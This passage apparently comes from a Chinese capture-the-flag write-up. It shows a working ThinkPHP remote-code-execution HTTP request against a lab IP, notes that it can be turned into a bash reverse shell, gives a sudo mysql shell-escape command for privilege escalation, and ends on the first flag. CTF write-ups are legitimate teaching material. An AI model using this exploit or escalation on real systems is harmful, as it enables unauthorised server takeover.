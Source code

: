 构造 exp 如下，直接弹 shell 即可

```plain
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.144.193
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
# 可更改为 bash 反弹 shell，记得 url 编码即可
```

### sudo mysql 提权

反弹 shell 后，需要进行提权操作，执行如下命令

```plain
sudo mysql -e '\! /bin/sh'
```

参考：[https://gtfobins.github.io/gtfobins/mysql/](https://gtfobins.github.io/gtfobins/mysql/)

[![](assets/1709193375-58c203441341edd9ddfd526bad532997.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205317-2d377bfe-d56f-1.png)

成功读取到第一步 flag

[![](assets/1709193375-d33deeeed822ea84793dcc4346251efc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205331-360361e4-d56f-1.png)
